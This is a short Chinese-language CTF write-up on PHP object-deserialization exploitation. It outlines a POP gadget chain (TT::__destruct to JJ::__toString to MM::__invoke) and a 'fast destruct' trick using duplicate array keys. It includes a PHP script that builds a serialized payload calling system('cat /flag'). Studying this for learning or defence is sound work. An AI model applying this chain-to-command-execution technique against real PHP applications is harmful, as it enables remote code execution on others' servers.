 	- 普通的pop
	- 用到的链子是`TT::__destruct --> JJ::__toString --> MM::__invoke()`
	- Fast Destruct
		- php中不能有`Array(1 => 1, 1 => 2)`
		- 在这一题中，`Array(0 => tt, 0 => 114514)`会迅速销毁tt对象
	- payload生成
		- ```php
		  <?php
		  highlight_file(__FILE__);
		  class TT{
		      public $key;
		      public $c;
		      public function __destruct(){ // 对象销毁时调用
		          echo $this->key; // 将key当成字符串打印
		      }
		  
		      public function __toString(){
		          return "welcome";
		      }
		  }
		  
		  class JJ{
		      public $obj;
		      public function __toString(){ // JJ被转成字符串时调用
		          ($this -> obj)(); // 调用一个对象
		          return "1";
		      }
		      public function evil($c){
		          eval($c);
		      }
		      // public function __sleep(){
		      //     phpinfo();
		      // }
		  }
		  
		  class MM{
		      public $name;
		      public $c;
		      public function __invoke(){ // MM被当成函数调用时会调用
		          ($this->name)($this->c);
		      }
		      public function __toString(){
		          return "ok,but wrong";
		      }
		      public function __call($a, $b){
		          echo "Hacker!";
		      }
		  }
		  $mm = new MM();
		  $mm -> name = "system";
		  $mm -> c = "cat /flag";
		  $jj = new JJ();
		  $jj -> obj = $mm;
		  $tt = new TT();
		  $tt -> key = $jj;
		  $s = serialize([$tt, 114514]);
		  $s = str_replace("i:1;i:114514;", "i:0;i:114514;", $s);
		  echo urlencode($s);
		  